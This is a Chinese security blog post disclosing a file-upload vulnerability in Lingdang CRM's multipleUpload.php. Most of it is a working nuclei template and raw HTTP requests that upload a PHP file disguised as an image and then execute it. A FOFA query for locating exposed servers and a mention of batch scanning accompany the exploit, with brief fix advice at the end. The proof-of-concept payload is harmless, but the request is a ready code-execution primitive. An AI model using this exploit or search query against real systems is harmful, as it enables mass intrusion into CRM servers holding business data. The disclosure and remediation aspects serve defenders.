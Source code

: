 #  灵当CRM系统multipleUpload.php接口处存在文件上传漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-11-19 00:35  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
灵当CRM系统multipleUpload.php接口处存在文件上传漏洞。  
攻击者可通过上传包含恶意代码的文件到服务器，使恶意文件被执行，从而导致系统被入侵或遭受其他安全风险。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
  
```
id: lingdang-CRM-multipleUpload_php-fileupload

info:
  name: 灵当CRM系统multipleUpload.php接口处存在文件上传漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")

http:
  - raw:
      - |
        POST /crm/modules/Home/multipleUpload.php?myatt_id=1&myatt_moduel=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR

        ------WebKitFormBoundaryj7OlOPiiukkdktZR
        Content-Disposition: form-data; name="file"; filename="test.php"
        Content-Type: image/png

        <?php echo md5(123456);@unlink(__FILE__);?>
        ------WebKitFormBoundaryj7OlOPiiukkdktZR--


      - |
        GET /crm/storage/2024/November/week3/test.php HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'status_code_2 == 200'
              - 'contains(body_1,"path")'
              - 'contains(body_2,"e10adc3949ba59abbe56e057f20f883e")'
        condition: and

```  
  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndYjPDNo9xRIRpsxMShSzsNcAia5gibwEAZnEL3ic7LAK7XQZ6j28Rl2CkvWIZw98o2Biag030UY1PCxQ/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndYjPDNo9xRIRpsxMShSzsNoyoibXfcyyLLvgWKpDUL03YnWqVKaZG0aX0hyg3YyibQDZYO4C19XPSg/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndYjPDNo9xRIRpsxMShSzsND1MCrx9bHzSBhCvcZ5FqwrRjOibkDvvC8lGwUuibCQydFT8jF7drJFVA/640?wx_fmt=png&from=appmsg "")  
  
访问验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndYjPDNo9xRIRpsxMShSzsNCcBU7aogGia9na5v8X9RP2ibQ4rEN2ficFyFVAOBGL91dkMoazKKyGG6Q/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
POST /crm/modules/Home/multipleUpload.php?myatt_id=1&myatt_moduel=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Connection: close
Content-Length: 222
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR
Accept-Encoding: gzip

------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/png

<?php echo md5(123456);@unlink(__FILE__);?>
------WebKitFormBoundaryj7OlOPiiukkdktZR--


GET /crm/storage/2024/November/week3/test.php HTTP/1.1
Host: 
```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndYjPDNo9xRIRpsxMShSzsNUrPJf0V0BkzEGicezXemsgUTtlUL7MPwGWaJXTiajpl5MbKN0y284r5g/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、文件类型验证：仅允许上传特定类型的文件，例如图像、文档等，并拒绝可执行文件或其他潜在的恶意文件类型。  
  
2、文件大小限制：限制上传文件的大小，以防止恶意用户上传过大的文件导致服务器资源耗尽。  
  
3、文件名处理：对上传的文件进行重命名，避免使用用户提供的文件名，以防止路径遍历攻击。  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
  
  
